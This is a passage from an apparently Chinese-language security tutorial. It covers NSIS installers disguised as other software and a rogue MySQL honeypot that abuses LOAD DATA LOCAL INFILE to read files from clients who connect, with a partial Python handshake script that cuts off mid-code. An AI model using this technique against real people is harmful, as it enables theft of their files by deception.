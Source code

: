 ### NSIS制作安装包

使用nsis可以将上述多个文件打包成一个安装包，并可伪装成任意软件。软件下载地址：https://www.pc6.com/softview/SoftView_14342.html
软件使用教程：https://www.cnblogs.com/modou/p/3573772.html

![]()

# mysql蜜罐

21年国家HW时，某知名社区官方账号就曾使用该方法进行钓鱼，在一篇分析投毒代码中留下Mysql蜜罐的账号密码，吸引好事者登录mysql蜜罐，窃取敏感信息。

![]()

## LOAD DATA LOCAL INFILE

LOAD DATA LOCAL INFILE 是 MySQL
中用于将数据从本地文件加载到数据库表中的命令。这个命令允许用户通过指定本地文件的路径将数据导入到数据库表中。

读取服务端上的文件内容存入表中：

    
    
    load data infile "文件" into table "表名" fields terminated by '分隔符';  
    

读取客户端上的文件内容存入表中：

    
    
    load data local infile "文件" into table "表名" fields terminated by '分隔符';  
    

查看LOAD DATA LOCAL INFILE 功能开关状态

    
    
    show global variables like 'local_infile';  
    

![]()  
将LOAD DATA LOCAL INFILE 功能打开

    
    
    set global local_infile=1;  
    

## 蜜罐

利用代码伪造连接信息

![]()

尝试读取文件信息

    
    
     if 'SET NAMES utf8' in res4:  
                            conn.sendall("\x07\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00")  
                            res5 = conn.recv(9999)  
                            if 'SET character_set_results=NULL' in res5:  
                                conn.sendall("\x07\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00")  
                                conn.close()  
                        else:  
                            conn.close()  
                    else:  
                        conn.close()  
                else:  
                    conn.close()  
            else:  
                try:  
                    wantfile = chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename  